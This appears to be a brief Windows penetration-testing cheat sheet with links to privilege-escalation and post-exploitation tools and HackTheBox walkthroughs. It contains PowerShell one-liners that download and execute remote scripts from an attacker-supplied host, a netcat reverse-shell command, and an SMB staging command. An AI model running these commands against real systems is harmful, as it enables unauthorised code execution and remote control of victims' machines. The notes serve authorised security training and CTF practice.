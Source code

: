 # Windows

living off the land binaries: [LOLBAS](https://lolbas-project.github.io/)

## Enumeration

Windows Privilege Escalation Enumeration Script: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Little bit o' everything: [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)

## Unsorted

Powershell full path: `C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Powershell "wget" and execute remote code:

```text
powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
```

Powershell Script Execution Bypass: \[can embed in php too!\]:

```text
echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
```

Powershell reverse shell and exploit scripts: nishang [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)

Netcat reverse shell \(after uploading the binary!\): `nc64.exe -e cmd <ip port>`

tools: [https://specterops.io/resources/research-and-development](https://specterops.io/resources/research-and-development)

easy windows shell: unicorn.py [trustedsec/unicorn](https://github.com/trustedsec/unicorn) [HackTheBox - Arctic](https://www.youtube.com/watch?v=e9lVyFH7-4o)

system information: `sysinfo`

Get user id: `getuid`

Powershell privilege escalation:

* [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) from PowerShellEmpire
* Sherlock.ps1

[fuzzbunch](https://github.com/peterpt/fuzzbunch): exploit tool similar to metasploit

check what updates are installed: `type WindowsUpdate.log`

net use share from linux \[like SimpleHTTPServer for Samba\]: `impacket-smbserver <sharename> '<dir_to_share>'`

